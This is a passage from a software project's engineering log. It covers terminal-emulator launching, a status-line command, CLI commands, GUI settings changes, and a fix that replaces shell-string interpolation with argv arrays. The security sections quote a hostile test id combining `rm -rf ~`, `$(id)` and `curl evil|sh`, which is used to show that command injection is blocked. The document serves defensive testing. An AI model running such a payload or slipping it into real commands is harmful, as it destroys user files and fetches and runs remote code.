|          | 5 WezTerm          | `wezterm start --cwd <cwd> -- <argv>`, or `open -na WezTerm --args …`         |
|          | 6 Terminal.app     | `open -a Terminal <wrapper.command>`                                          |
| Linux    | `$TERMINAL` first  | its own form if it is one of the below, else `<value> -e <argv>`               |
|          | 1 Alacritty        | `alacritty --working-directory <cwd> -e <argv>`                               |
|          | 2 foot             | `foot --working-directory=<cwd> <argv>`                                       |
|          | 3 kitty            | `kitty --directory <cwd> <argv>`                                              |
|          | 4 WezTerm          | `wezterm start --cwd <cwd> -- <argv>`                                         |
|          | 5 GNOME Terminal   | `gnome-terminal --working-directory=<cwd> -- <argv>`                          |
|          | 6 Konsole          | `konsole --workdir <cwd> -e <argv>`                                           |
|          | 7 Xfce Terminal    | `xfce4-terminal --working-directory=<cwd> -x <argv>`                          |
|          | 8 xterm            | `xterm -e <argv>` (cwd from the spawn; xterm has no flag)                     |
|          | 9 x-terminal-emulator | `x-terminal-emulator -e <argv>`                                            |
| Windows  | the console        | `cmd.exe /d /s /c start "" /d "<cwd>" cmd /d /s /k <program> "<arg>"…`, with `windowsVerbatimArguments` — the only row ever run, and the only one that is a command line rather than an argv. It was `cmd /c start "" cmd /k <argv>` until §96 rewrote its quoting. |

Detection order, highest first: the `terminal` setting; `$TERMINAL` (Linux); the emulator DeckHQ
is itself running inside (`$TERM_PROGRAM`, or `KITTY_WINDOW_ID`, `FOOT_PID`, `KONSOLE_VERSION`,
`GNOME_TERMINAL_SERVICE`, `ITERM_SESSION_ID`, `WEZTERM_PANE`, `ALACRITTY_WINDOW_ID`,
`WARP_IS_LOCAL_SHELL_SESSION`, `GHOSTTY_RESOURCES_DIR` for the ones that set no
`$TERM_PROGRAM`); then what is installed, in the order above; then the platform's guaranteed
one. Every candidate is kept, so the launcher walks the list and stops at the first that
actually spawns — a stale pin costs one failed spawn, not the feature.

### What is NOT verified — the whole point of this entry

**Nothing outside the Windows row has been executed anywhere.** This was written on a Windows
machine. Twenty-one argv arrays are asserted byte for byte against the emulators' documented
interfaces, and that is a different claim from "these work". Rule §1.1.11 of
`08-PLAN-V2-100X.md`: a claim in anyone's documentation is a hypothesis until measured on a
machine. These are hypotheses. §9 carries the acceptance step, and README's "Honest limits"
still says macOS and Linux are unverified.

The specific things most likely to be wrong, so the person with a Mac knows where to look:

- **Ghostty's `-e`.** Whether the macOS app honours `--working-directory` and `-e` when they
  arrive through `open --args` rather than on a real command line.
- **Warp.** Its URL scheme (`warp://action/new_tab?path=…`) carries a path but no command, so
  WP-04's stated fallback was taken: `open -a Warp <wrapper>.command`. Whether Warp opens a
  `.command` file at all, rather than handing it back to Terminal.app, is untested. This is the
  weakest row in the table.
- **iTerm2's AppleScript.** `create window with default profile` then `write text` is the
  documented pair, but the exact spelling varies across iTerm2 versions, and a wrong one fails
  at compile time inside `osascript`, where nothing here can see it.
- **`open -Ra <name>`** as an installed-or-not probe, and the bundle names guessed for it:
  `iTerm.app` for iTerm2, lowercase `kitty.app`, then `Ghostty.app`, `WezTerm.app`, `Warp.app`.
- **xfce4-terminal's `-x`.** Chosen over `-e` because `-e` takes one string and re-splits it,
  which is the shell-string form this whole module exists to avoid. `-x` consumes the rest of
  the command line, which means nothing may follow it — asserted, but not run.

### Deviations from WP-04 as written

1. **`x-terminal-emulator` is kept, last.** Not in WP-04's list; it was in the code this
   replaces. On Debian and its derivatives it is the alternatives symlink through which a
   user's chosen emulator is reached when it is not one of the eight named, so dropping it
   would have been a regression for exactly the users most likely to have configured one.
2. **An unrecognised `$TERMINAL` is used with `-e`.** WP-04 says honour `$TERMINAL` first and
   does not say what to do when it names something not in the table. Ignoring a variable the
   user set is worse than trying it, and `-e` is what the code this replaces used for the same
   situation. An emulator wanting a different flag fails visibly rather than opening the wrong
   thing.
3. **`$TERM_PROGRAM` and `$TERMINAL` are treated as proof of presence; the pin is not.** Being
   inside an emulator is live evidence it is installed, whatever `which` and `/Applications`
   say — the usual reason a probe misses on a Mac that plainly has the app is that its CLI was
   never symlinked, which is why such a case is launched through `open`. A pin is a stored
   preference and the machine may have changed under it, so a pin whose probe misses is kept
   but demoted behind everything actually found. It is never silently dropped: `deckhq doctor`
   prints `Ghostty   (pinned in settings; not found on this machine)`.
4. **The `terminal` setting is validated in three places, by what each layer can know.** The
   HTTP route rejects an id no platform has (it may import the adapter's table).
   `core/store.mjs` validates by SHAPE only — `core/` importing from `adapters/` would invert
   `02-ARCHITECTURE.md` §2's layering, so the store guarantees only that the stored value can
   never be a path, a flag, a shell fragment or a non-string. Detection ignores a pin it cannot
   resolve on this platform, so a `state.json` carried between a Mac and a Linux box still
   opens a terminal. All three layers are tested.
5. **The macOS "new session" path now carries the first prompt.** The old one wrote
   `exec claude` and dropped `opts.instructions` on the floor — a silent behavioural difference
   from Windows that no test covered. The prompt is one argv element, and `shQuote`d whole
   inside the wrapper.
6. **The wrapper script's filename is sanitized.** The old one interpolated the session id into
   `deckhq-resume-<id>-<ts>.command`, so an id containing `../` chose where in the filesystem
   the script was written. Ids are now stripped to `[A-Za-z0-9._-]` and capped at 64
   characters. Tested.
7. **The terminal row is in `deckhq doctor` but NOT in `--share`.** Which emulator someone runs
   is a fact about them, adds nothing to the numbers the share block exists to carry, and the
   block's contents are governed by §84. Tested by asserting its absence.

### The security discipline, and where it is imperfect

Argv arrays end to end. The session id, the working directory and a first prompt travel as
individual argv elements from the route to `spawn()`, and `test/unit/terminals.test.mjs`
asserts, for every pair, that an id made of `x'; rm -rf ~ #$(id)` plus backticks plus
`&& curl evil|sh` appears in exactly one argv element and is equal to it — never concatenated
into a longer one. No launch form uses `sh -c`, and that is asserted too, by pattern, over every
pair.

Three macOS applications have no argv surface at all, so for those the command becomes a shell
line — written to a `#!/bin/sh` wrapper file with every value single-quoted, and only its
absolute path passed as an argument. The test recovers the argv back out of the generated line
through the same grammar `sh` uses and asserts it equals the original, and separately asserts
that the line matches the grammar of nothing but single-quoted words. The AppleScript never sees
user data: `osascript` gets the wrapper's path as `argv`, and the script quotes it with
`quoted form of`, which is the same transformation `shQuote` performs.

The Windows row is the third case, and it was the one this entry got wrong. `start` is an
internal `cmd.exe` command rather than a program, so `cmd.exe` re-parses everything after it —
and node's win32 argument quoting, which this row relied on, does not escape `&`, `|`, `^`, `<`
or `>`. The claim above was therefore false on Windows for two months. §98 is the fix: the
command line is built by this module and handed over with `windowsVerbatimArguments`.

The wrapper files are not cleaned up. One ~150-byte file per resume accumulates in the temp
directory, as it did before this package. Left alone deliberately: pruning by pattern in a
shared temp directory is a delete loop, and the OS clears it.

### Left for other owners

- ~~**`src/adapters/codex/adapter.mjs` still builds shell strings.**~~ **Closed by §95.** Its
  macOS path interpolated the session id into an AppleScript
  `do script "cd \"…\" && codex resume <id>"`, and its Linux path into
  `bash -lc "codex resume <id>"` — the exact form this module was written to remove, and a
  hostile session id reached a shell there. It was one `launchTerminal()` call from being fixed,
  and that is what it now is.
- **No UI.** The `terminal` setting is reachable through `POST /api/settings` and nowhere else;
  `public/` is outside this package. A picker in the settings panel, populated from
  `terminalIds()` filtered to the running platform, is Product Engineering's.
- **The module's home.** ~~It lives under `src/adapters/claude-code/`~~ **Moved by §95.** It was
  under `src/adapters/claude-code/` because WP-04 said so, and because the spawn discipline
  belongs beside the adapter that spawns. It is not Claude-Code-specific, and both
  `src/cli/doctor.mjs` and `src/http/routes/settings.mjs` were importing it across that
  boundary. The condition set here — "when a second adapter adopts it, it should move to
  `src/core/terminals.mjs`" — was met by the Codex adapter, and it has. The old path remains as
  a re-export so those two callers are unchanged.

## 92. WP-38 · The status line: what it counts, where it reads from, and the six decisions the package left open

`08-PLAN-V2-100X.md` WP-38: "`deckhq statusline` prints one line (`▣ 3 waiting · 1 hand up`) from
the state file, without a daemon, in under 20 ms; the settings sheet and the plugin offer to add it
to the user's Claude Code status line configuration with the same consent screen and tagging
discipline as hooks." Shipped as `deckhq statusline`, `--json`, `--install`, `--remove`. Six
decisions, and one measurement that changed the implementation.

**Decision 1 — `waiting` is the header's numeral, and `hands up` is inside it.** `waiting` is
`counts.needsYou`; `handsUp` is the `needs_input` subset. They overlap deliberately: "3 waiting ·
1 hand up" says three things need you and one of them is blocked on an answer, which is the shape
of the decision the reader has to make. Both come from `counts()` in `src/core/model.mjs` — the
same function the header calls — which is what makes WP-38's acceptance criterion (the count
matches the header) structurally true rather than separately implemented and hoped for. `▣ clear`
when nothing is waiting: a cleared queue is a state worth showing, and a blank line is
indistinguishable from a broken command.

**Decision 2 — the no-daemon path is the daemon's own restart bootstrap, and nothing more.** With
no daemon there is no liveness and no stall clock, so `readOffline()` derives exactly what
`Registry._ensureObserved()` already derives when the daemon restarts: a persisted `reviewSince`
is `for_review`, a persisted `needsInputSince` is `needs_input`, everything else is `ended`. It
never invents `working` and it never invents `stalled` — a stall is a function of a live process
and a window, and inventing one would be a second representation of state allowed to disagree with
the first, which is the root cause behind §16, §35, §38, §52 and §55. A test asserts the absence.

**Decision 3 — the agent set is the cache UNION the undischarged ack records.** The cache
(`~/.deckhq/cache/`) mirrors the transcripts on disk, which is what the daemon would count; but it
is capped by entry count and by bytes (`summary-cache.mjs`), so it can legitimately be missing a
session. An ack record carrying an undischarged `reviewSince` is evidence of a debt regardless.
The union can over-count exactly one class — a session whose transcript was deleted while its debt
stood — and the intersection would under-count the queue, which for this product is the worse
failure ("capture beats features"). Union, with the cache filling in the display columns.

**Decision 4 — the port scan does not consult the installed hooks.** `doctor` finds a daemon
properly, by asking each adapter where its hooks post. Doing that here would mean loading the
adapter registry — `parse.mjs`, `desktop.mjs`, `hooks.mjs` — on a path with a 20 ms budget. The
status line scans `--port`, then `DECKHQ_PORT`, then 4317–4326, which is the range `startDaemon()`
itself walks. A daemon deliberately started outside it needs `--port`, and that is what `--command`
in the install plan exists for.

**Decision 5 — the backup is `statusline-backup-*.json`, not the hooks installer's own helper.**
The brief said to reuse the existing backup helper. That helper in
`src/adapters/claude-code/hooks.mjs` is module-private and this package may not edit
`src/adapters/`, so this writes the same `{existed, raw}` shape into the same `~/.deckhq/backups/`
directory under a different prefix. The different prefix is not a workaround, it is required:
`hooks.remove()` restores the newest `settings-backup-*.json` **verbatim** when the pruned object
matches it, and a status-line backup taken after the hooks were installed would otherwise become
the file hook removal restores — silently reinstating the hooks it had just removed. A test pins
the filename apart from that pattern.

**Decision 6 — `refreshInterval: 5`, and what it costs.** Claude Code refreshes a status line on
events in _that_ session; this line changes because of _other_ sessions, so with no timer an idle
terminal shows a frozen number. Five seconds is `DEFAULT_SETTINGS.pollIntervalMs`, which is what
makes "matches the header within one poll" true rather than aspirational. Measured cost of one run
on the reference machine (Windows, Node 22, 77 sessions, no daemon): **148 ms median end to end**,
of which ~60–90 ms is Node's own start-up. `--interval 0` writes no timer at all.

**The measurement that changed the implementation.** The first cut asked each candidate port over
HTTP. That measured **321 ms** end to end on a machine with no daemon — and 88 ms of it was the
_first_ `fetch()` in the process standing undici up, paid on a machine that has nothing to talk to.
Every candidate is now TCP-probed first (`net.connect`, the probe `doctor` already uses) and only a
port that accepted a connection is spoken HTTP to. 321 ms → 148 ms. The in-process budget the
package names is met with room to spare: **3 ms median on the reference machine's 77 sessions, and
5.6 ms median on a synthetic 400**, against the 20 ms asserted in the test.

**Consent, unchanged from hooks.** `--install` prints the literal JSON and the absolute path of the
file it goes in, and writes nothing without `--yes`. The entry carries `"_deckhq": true`, and
removal takes only an entry that is tagged or whose command is recognisably ours (`deckhq
statusline`, `npx deckhq statusline`, `node "…/bin/deckhq.mjs" statusline`) — a status line
somebody else configured is reported and left exactly where it is. An install that would replace an
existing status line says so, and shows what is there now, before asking.

**Unverified.** The rendered line has not been seen inside a real Claude Code session: doing that
means writing to the user's own `~/.claude/settings.json`, which this package will not do without
them typing `--yes` themselves. What _is_ verified is the file transaction (round-trip
install/remove against a temporary settings file, including the "no settings file existed" case),
the JSON shape against the published `statusLine` contract, and the command's own output. The
`_deckhq` tag is an extra key inside `statusLine`; hook entries have carried the same tag since 1.0
without complaint, but Claude Code's treatment of an unknown key _inside_ `statusLine` specifically
is untested here — which is why removal also recognises our command string, so a stripped tag
cannot orphan the entry.

**Acceptance.** 29 tests: the line's arithmetic and its wording (including that it never says
"you"), the daemon path and the file path, benched and let-go excluded, no invented stall, a debt
with no cached summary still counted, a corrupt state file and a corrupt cache both reading as an
empty machine, the 20 ms budget, the loopback-only host, TCP-probe-before-HTTP, two INVARIANT tests
(printing the line leaves `state.json` byte-identical, and a read never assigns an MK number), and
eight install/remove tests.

## 93. WP-42 · The terminal deck: three departures from the deck spec, and the one thing `open` cannot do yet

`08-PLAN-V2-100X.md` WP-42 and B8; the table is `05-GUI-UX-SPEC.md` §3.2. Shipped as `deckhq ls`,
`waiting`, `ack`, `bench`, `open`, with `--json` on the reads.

**Departure 1 — the id column is labelled `ID`.** §3.2's header row is `WAITING WHO PROJECT LAST
WORD TOKENS`, with the MK tag in an unlabelled column. That is right for a surface where you never
type an id: in the GUI deck you press `J`/`K` and `1`/`2`/`3`. In a terminal the id _is_ the
interface — `deckhq ack MK1.1` — so the column that carries it is named. Column order is otherwise
the spec's exactly, and a test asserts the order.

**Departure 2 — `WHO` falls back to the session's own title.** The spec's WHO is "Ada", a name the
user gave. Almost nobody has named an agent yet, and filling WHO with the MK tag would print the
same string twice in adjacent columns. It falls back to the session title — the sentence the
runtime already shows the user — and to nothing when there is no title.

**Departure 3 — `ls` is wider than the deck; `waiting` is the deck.** WP-42 names both commands and
B8 describes one table. `deckhq waiting` is §3.2 exactly: the needs-you queue, oldest first,
`for_review` and `needs_input` above `stalled` and separated by a rule. `deckhq ls` prints that
table and then, under another rule, everybody else on the payroll ordered by most recent activity —
because an `ls` that hides two thirds of the floor is a surprising `ls`. Benched and let-go agents
are behind `--all` for the same reason in the other direction.

**The asymmetry between reads and writes is deliberate.** Reads work with or without a daemon.
Writes do not exist without one: `ack` and `bench` are `POST /api/ack`, which is `act()`, which is
the only function in this product allowed to clear `reviewSince` or `needsInputSince`. A CLI that
edited `state.json` directly would be a second writer against a file a running daemon holds in
memory and rewrites on a 250 ms debounce — the CLI's edit would be silently reverted — and, worse,
a second implementation of the one rule the product is built on. With no daemon these commands
print `start deckhq to act` and exit 2. Two tests pin it, one of them asserting `state.json` is
byte-identical afterwards and the debt still standing.

**Id resolution refuses rather than guesses.** The MK tag (case-insensitively, with or without the
`MK`), a display name, the full prefixed agent id, or any prefix of the session id. An ambiguous
token prints every candidate and exits 2 without posting anything. These ids address the two
commands that clear a user-owned state; a near-miss that silently picks the first match is exactly
how the wrong agent gets acknowledged.

**Colour.** Raw ANSI, no dependency. Off when `NO_COLOR` is present at all (the convention's own
rule: any value, including empty), when stdout is not a TTY, when `TERM=dumb`, and with
`--no-color`. A test asserts that the uncoloured render is byte-identical to the coloured one with
the escapes stripped, so the two can never drift into being different tables. The state glyphs are
padded to two terminal columns each, because `✋` and `⏳` are double-width and `✓` is not, and a
table whose columns move with the state of a row is a table nobody can `awk`.

**What `open` cannot do yet.** WP-42 says `deckhq open <id>` opens the floor at that agent. It
opens `http://127.0.0.1:<port>/#agent=<id>` through the existing `openUrl()` helper — the fragment
never reaches the server, so it costs the daemon nothing — but **no client code reads that fragment
today**, and `public/` belongs to WP-10's deep-link work and is outside this package's scope. So
today the command opens the floor and names the agent in the URL; the selection lands when the
client honours it. Stated here rather than quietly shipped as if it worked.

**Acceptance.** 28 tests: ordering and grouping against the spec's own example, `waiting` versus
`ls` versus `--all`, the column order, the elapsed-time and truncation formats, six id-resolution
cases plus ambiguity and no-match, four `NO_COLOR`/TTY cases plus the escapes-stripped equality,
the `--json` shape and its agreement with the printed rows, the no-daemon refusal for both writes,
an INVARIANT test that the CLI writes nothing to `state.json`, exactly one POST per action, a
daemon refusal reported rather than retried, and the three `open` cases. 514 tests to 570 across
both packages.

---

## 94. WP-07 — the header, the palette and the settings sheet: what shipped, and the four controls that did not

WP-07 is accepted against three sentences in
[`06-ENGINEERING-WORKPLAN.md`](plan/06-ENGINEERING-WORKPLAN.md): every action previously in the
header is reachable in ≤ 2 keystrokes from `⌘K`, the palette is fully keyboard-operable and
screen-reader-labelled, and **no orphaned settings keys remain**. All three hold. What follows is
where the implementation departed from [`05`](plan/05-GUI-UX-SPEC.md) §5 and why.

### 94.1 The numeral left the accent colour behind

`05` §2.4 asks for **JetBrains Mono, 44 px, `--ink`**, dropping to `--muted` and losing its weight
at zero. That is what shipped, and it is a change of colour as well as of size: the 13 px numeral
it replaces was `--accent` whenever it was non-zero.

Crimson is reserved for `for_review` and for primary actions (`03-VISUAL-SPEC.md` §5). The
needs-you total is the **sum of three states** — hands up, stalled, and for review — one of which
is a session that has gone quiet and is not standing in anyone's office. Painting that sum crimson
spends the reserved colour on a number that is crimson most of the time, which is exactly the "cry
wolf" the reservation exists to prevent. The breakdown's `for_review` dot still carries it, where
it means one thing.

The consequence is a test rewrite. `state-visuals.test.mjs` used to assert "the accent sets text in
exactly one place, and it is large" — the numeral was the single licensed exception, surviving only
by being WCAG large text. That test now asserts **the accent sets no text anywhere**, which is a
stronger rule and one less exception to explain. Measured: `--ink` 14.66:1 and `--muted` 5.45:1 on
the topbar's `--surface`.

### 94.2 The breakdown stacks instead of running along the line

`05` §5.2's sketch puts the three-way breakdown horizontally beside the numeral. It ships as a
three-row column instead. A 44 px numeral is 60 px tall with its label; three rows of 18 px fit
inside that height exactly, so the column costs no header height at all, while the horizontal
version would have pushed the counts and the primary action off a 1280 px window. Same three items,
same dot-plus-number-plus-word pairing, same order.

### 94.3 Four controls `05` §5.4 lists were not built

The package exists partly to delete a header toggle that wrote a setting nobody read for four
months (§58). Shipping four more of those in the sheet that replaces it would have been absurd, so
the rule applied throughout was: **a control ships only if moving it changes something today.**
These did not qualify, and each is named here with the package that owns its reader.

| §5.4 asks for | Not shipped because | Owner |
| --- | --- | --- |
| Preferred terminal | The terminal is chosen inside the adapter, per platform, from a fixed try-list (`x-terminal-emulator`, `gnome-terminal`, `konsole`, `xterm`). There is no setting to read. | WP-04 |
| Lounge crowd threshold | The crowd rendering it would tune does not exist; the renderer has no such input. | WP-12 |
| Ledger retention, export | There is no ledger. | WP-17 + WP-48 |
| "Show let go" as a stored setting | It is a property of the tab you are looking at, not of the machine. It ships as a **view toggle** in the palette (`⌘K` → `l`), held in memory and reset on reload. | — |

Two more are absent for a different reason: `approveText` belongs to the panel's `2 Approve` and is
edited there, and `onboarded` is a fact rather than a preference.
`test/unit/settings-keys.test.mjs` names both as the only exemptions, so a third cannot be added
silently.

**Two controls shipped that nothing acts on yet, and they say so.** The Sounds toggle and the
volume slider write real settings that WP-15 will read; the sheet says in as many words that no
sound plays yet. That is a stored preference with an honest label, which is a different thing from
a control that claims to work. If WP-15 slips, delete them.

### 94.4 `zoom` went with `showLetGo`

`showLetGo` was the flagged one (§58). `zoom` was the same defect and nobody had flagged it:
written into `DEFAULT_SETTINGS` since v1, accepted by the route, persisted to `state.json`, and
read by nothing — the floor's magnification is client state that `Scene` owns and has never been
saved. "No orphaned settings keys remain" is not satisfied by deleting the one that had a bug
report, so both are gone. `docs/02-ARCHITECTURE.md` §7's sample `state.json` was updated to match.

The route's allowlist is now `new Set(Object.keys(DEFAULT_SETTINGS))` rather than a hand-written
list. Those two lists drifting apart is the whole mechanism by which `showLetGo` survived: the
route accepted it, the store persisted it, and no one comparing the two would have noticed. The
store also now **drops** any key outside `DEFAULT_SETTINGS` when it normalises, so a `state.json`
written by an older build loses `showLetGo` and `zoom` on its first load instead of carrying them
for ever.

`onboarded` moved into `DEFAULT_SETTINGS`. It had been accepted by the route and written by the
client without ever being declared — a real setting that the store's own type did not know about.

### 94.5 Two settings the sheet needed had no reader, so they got one

`notifications` and `sound` were both dead on arrival: `sound` has never been wired to anything
(`05` §8 says so), and `notifications` was declared, defaulted to `true`, and never consulted — the
client checked only the browser's permission. `notifications` is now the master switch it always
claimed to be, and `notifyHandsUp` / `notifyForReview` are the per-state switches under it.

`notifyForReview` is where §5.4's "crashes" landed. There is no crash state in the model — nothing
anywhere in `src/` detects one — so rather than ship a switch over a signal that does not exist,
the two states that actually fire a notification each got their own. If a crash state arrives, it
gets a third.

### 94.6 `reducedMotion` is a real override, and the media query moved to make room

`settings.reducedMotion` is `system` (the default, deferring to `prefers-reduced-motion`),
`reduce`, or `no-preference`. It is stamped on `<html>` as `data-motion` and read by `style.css`,
which means the `@media (prefers-reduced-motion: reduce)` block had to become
`:root:not([data-motion='no-preference']) *` — otherwise an explicit "always animate" could not win
against it. A machine that never opens the sheet carries no attribute and behaves exactly as
before, which is what keeps the goldens harness (which emulates reduced motion) working unchanged.

The renderer does not read it yet: `public/render/**` belongs to another engineer and this package
does not touch it. The chrome honours it today; the floor honours the OS setting as it always has.

### 94.7 The hook consent screen is a section, not a dialog

`05` §5.4 asks for it embedded, and it is: `createHooksUI` no longer owns a `<dialog>` and renders
into whatever element it is handed. The consent contract is untouched — the literal absolute path
and the literal JSON block are still shown before anything is written, and the install call still
carries a `{ consent: true }` that only a click on that button can produce. Two copy strings that
said "remove it from the header" were corrected; there is no header button any more.

### 94.8 What "≤ 2 keystrokes" actually means, and how it is measured

One character, then Enter. Each former header action carries a unique single-character
accelerator — `s` settle, `p` new project, `h` hooks, `r` refresh, `n` notifications, `l` show
let-go — worth a flat 1,000,000 in the ranking, which is three orders of magnitude above the best
fuzzy score any entry can reach. `test/unit/palette.test.mjs` asserts the accelerators are unique
**and** that each one ranks its command first against a populated floor whose agent names and
titles are chosen to collide with the command words ("Settle the migration", "Refresh the token
cache", "Refactor the notifier"). An empty list would have made the test meaningless.

The matcher itself needed one non-obvious thing. Greedy leftmost subsequence matching scores
"notifier" against "Rune · MK5.1 · orbital-api · Refactor the notifier" by eating the `n` in "Rune"
and scattering the rest — the contiguous hit at the end never gets looked at. The scan is therefore
re-run from every occurrence of the query's first character and the best result wins, capped at 24
starts.

### 94.9 The palette does not call `/api/ack`, and is tested for it

The six acknowledgement actions appear in the palette, but running one calls back into
`panel.performAction()` — still the only place in the client that posts to `/api/ack`.
`panel-invariant.test.mjs` was extended rather than relaxed: `app.js` now has exactly three call
sites (the `A` and `B` keys, and the palette's `ack` action, which the test matches by shape inside
`createPalette({…})`), and a new test asserts `public/palette.js` contains no `fetch(` at all.

`legalAckActions()` is duplicated in `palette.js` rather than imported from `panel.js`, which
reaches `localStorage` through `./drafts.js` at module scope and cannot be loaded in a Node test.
The table is pinned by a test so the two copies cannot drift in silence — the same trade `app.js`
already makes with `STATE_LABELS` and the state colours.

### 94.10 `/api/about`, and a rate card that now has a date

§5.4's Data section wants the state file path and the rate card version, both read-only. The path
was reachable only through `writeError`, which exists only when writing has failed, and the rate
card had no version at all — just a table of per-million-token rates inside `estimateCost()`. So:
`GET /api/about` returns `{ statePath, rateCardVersion, writeError }`, and `model.mjs` exports
`RATE_CARD_VERSION`. A cost estimate nobody can trace to a dated table is a number nobody can
check, and this product says "estimate, never a bill" everywhere else.

### 94.11 Screenshots and goldens

`docs/media/header-palette.png` and `docs/media/settings-sheet.png`, both captured from the demo
floor at 1600x1000. `scripts/capture-floor.mjs`'s `--press` gained two escapes to drive them: `^`
holds Ctrl for the next key (`^k` is the palette) and `~` is Enter, so `^k,~` opens the palette,
types the Settings accelerator and runs it.

**The goldens were regenerated, and they had to be.** The header changed shape and, being taller,
moved the floor's fit — 50% of pixels differ on the populated fixtures. All four were regenerated
and the check then passes at **0 px moved at all** on every population.

That zero is worth recording. §87 measured a 36-pixel noise floor: a 592x2 strip in the header,
one count on one channel, flipping direction between runs — "a bistable rounding in a single
blend". That blend was in the header this package replaced. It is gone, and the harness is now
bit-exact across Chrome sessions on all four populations. §87's tolerances are unchanged; there is
simply nothing left for them to absorb.

**And the goldens caught a real defect before anyone saw the product.** The first check came back
with the command palette drawn over the floor, closed, in every population. A `<dialog>` is hidden
by the UA rule `dialog:not([open]) { display: none }`, and any author rule that sets `display` on
the element beats a UA rule regardless of specificity — so `.palette { display: flex }` left it
permanently on screen. Two unit suites, a lint pass and two hand-driven screenshots had all gone
green on it, because in every one of those the palette was open. `display` now lives on
`.palette[open]`, and `state-visuals.test.mjs` fails on any rule that sets `display` on a bare
dialog class. This is the third entry in this log (§26, §52, §55) whose defect was invisible to
every test and obvious in one screenshot, and the first one the gate caught by itself.

### 94.12 Loose ends for whoever takes WP-10 and WP-12

- **"Jump to `<project>`" selects; it does not move the camera.** There is no camera-framing API to
  call — `05` §6.4's focus camera is WP-12. When it lands, `jumpToProject()` in `app.js` is the one
  line to change.
- **The palette's agent list is the whole roster, unranked by urgency.** When the queue strip and
  the deck land (WP-10) the palette should probably float waiting agents to the top of their group.
  It deliberately does not guess at that ordering now.
- **The view toggle does not put let-go agents on the floor.** It makes them reachable — palette,
  panel, selection — which is everything the dead setting ever promised minus the drawing, and the
  drawing is `public/render/**`.
## 95. Codex adapter — the last shell string in the tree, and the module that moved to meet it

**Spec:** `08-PLAN-V2-100X.md` §1.1 rule 8 keeps runtime CLI knowledge inside its adapter;
`07-AGENT-HANDOVERS.md` Agent Backend states the discipline that goes with it — "argv arrays only,
never shell strings with interpolated user data". §91's "left for other owners" named the one place
still breaking it and said it should not wait for WP-23.

**The defect.** `src/adapters/codex/adapter.mjs`'s `openInTerminal()` built its command as a shell
string on both POSIX platforms:

```
osascript -e 'tell application "Terminal" to do script "cd \"<cwd>\" && codex resume <id>"'
gnome-terminal -- bash -lc "codex resume <id>"     (and the same for konsole, xterm and
                                                    x-terminal-emulator)
```

The session id and the working directory were interpolated straight in. Both arrive in a request
body — `POST /api/open` and `POST /api/resume` take `id`, and the cwd is read from the registry —
so this is §28's failure with the target moved from the network to the id. The macOS path escaped
`"` and `\` for the AppleScript literal and stopped there: `'`, `` ` ``, `$(` and `;` all survived
that pass into a `do script`, which is a shell. The Linux path escaped nothing at all. An id of
``x'; rm -rf ~ #$(id)`id` && curl evil|sh`` reached a shell that would have run it.

**Shipped.** `openInTerminal()` is now the same three lines as the Claude Code adapter: name the
command as an argv array, hand it to `launchTerminal()`.

```js
await launchTerminal({
  command: codexResumeCommand(sessionId), // ['codex', 'resume', <id>]
  cwd,
  sessionId,
  prefix: 'codex-resume',
  pin: opts.terminal,
});
```

Nothing in the file builds a string for a process any more. There is exactly one `spawn()` left in
it — `spawn('codex', args, …)` in `runCodex`, which was already an argv array — and the two argv
builders behind it (`codexExecArgs`, `codexResumeCommand`) are pure functions, exported so the
array itself can be asserted rather than reasoned about.

Codex sessions gain the whole of WP-04 by doing so: ten emulators instead of four, `$TERMINAL`,
detection of the emulator DeckHQ is running inside, and the `terminal` setting — which the Codex
adapter previously ignored, so a user who had pinned Ghostty got it for Claude Code sessions and
`x-terminal-emulator` for Codex ones. That difference is gone.

### The module moved

§91 left the condition explicitly: "when a second adapter adopts it, it should move to
`src/core/terminals.mjs`. Architect's call." The Codex adapter is that second adapter, so it has
moved. It knows nothing about any runtime and imports only node builtins, so this does not invert
`02-ARCHITECTURE.md` §2's layering the way `core/` reaching into `adapters/` would — and it closes
the boundary crossing §91 flagged, where `src/cli/doctor.mjs` and `src/http/routes/settings.mjs`
were importing out of the Claude Code adapter's directory.

`src/adapters/claude-code/terminals.mjs` remains, as one line:
`export * from '../../core/terminals.mjs'`. Those two callers are outside this package's scope, so
they are untouched and still work; repointing them and deleting the shim is a one-line change for
their owner. A test asserts the re-export carries every binding, identity by identity, so the shim
cannot silently go stale.

### Not fixed, and deliberately so

1. ~~**`openNewSession()` still runs `codex resume new`.** It delegates to
   `openInTerminal('codex:new', cwd)`, so the literal argv is `['codex', 'resume', 'new']`. That is
   almost certainly not how Codex starts a fresh session, and `opts.instructions` is still dropped
   where the Claude Code adapter now carries it (§91 deviation 5). Both are behaviour, not the
   shell-string defect this change is for, and neither can be checked without Codex on the machine.
   WP-23's. The user's pinned emulator IS now forwarded, because the point of routing both adapters
   through `launchTerminal()` is that they obey one setting.~~ **Closed by §99**: it now runs
   `codex`, with the first prompt as one argv element.
2. **The adapter remains unverified against real Codex.** §8 stands unchanged: Codex is not
   installed on the reference machine, `available()` returns false, and every method degrades
   rather than throwing. Nothing in this change was executed against Codex. What was proved is the
   argv arrays, which is a different claim (§1.1 rule 11).
3. ~~**The Windows console row still joins its argv into a `cmd.exe` command line.**
   `cmd /c start "" cmd /k <argv>` is WP-04's Windows form and is unchanged here, but `cmd.exe`
   does not parse its command line the way `CreateProcess` argv quoting assumes: `&`, `|`, `^`, `<`
   and `>` are its metacharacters and node's win32 argument quoting does not escape them. So on
   Windows an id containing `&` remains a residual — for Claude Code exactly as much as for Codex.
   It is the same exposure before and after this change, it belongs to the terminal table rather
   than to either adapter, and rewriting the one launch form that has actually been run on real
   machines was not worth folding into a security fix for a different bug. Named here so it is not
   mistaken for covered.~~ **Closed by §98**, which rewrote the row's quoting and measured both
   the defect and the fix on the reference Windows machine.

### Acceptance

`test/unit/codex-terminal.test.mjs`, 29 tests, none of which start a process:

- the two argv builders, asserted as exact arrays in both their forms;
- `codex resume <id>` built through `buildLaunch` for all 19 (platform, emulator, launch form)
  pairs, asserting no launch form names a shell and no argument is a `-c`/`-lc` flag;
- `SECURITY:` the same hostile id `terminals.test.mjs` uses, over all 19 pairs — it lands in
  exactly one argv element and is equal to it, or, for the three macOS applications that take no
  argv at all, appears nowhere in the argv;
- `SECURITY:` a hostile cwd reaches at most one argv element and is always its tail, never spliced
  into the middle of one;
- `SECURITY:` the `#!/bin/sh` wrapper written for those three applications, read back through the
  grammar `sh` itself uses, recovers the exact argv — and the line matches the grammar of nothing
  but single-quoted words, so every metacharacter is inside a quoted word by construction;
- `SECURITY:` two scans of the adapter's own source with comments stripped — its code contains no
